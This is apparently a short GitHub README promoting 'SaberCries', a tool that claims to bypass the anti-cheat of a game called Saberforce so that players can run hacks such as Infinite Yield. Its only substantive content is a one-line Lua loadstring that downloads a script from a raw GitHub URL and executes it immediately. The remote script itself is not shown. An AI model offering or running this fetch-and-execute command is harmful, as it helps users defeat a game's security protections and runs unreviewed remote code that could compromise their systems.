 # sabercries
**SaberCries** is a powerful anti-cheat bypass for **Saberforce**, granting players unrestricted access by evading the game's security systems. It allows the use of specific hacks (including Infinite Yield), providing a completely unblocked experience—perfect for those who want to break free from the game's limitations. 

**loadstring**
```loadstring(game:HttpGet("https://raw.githubusercontent.com/hordenode/sabercries/refs/heads/main/sabercries.lua",true))()```
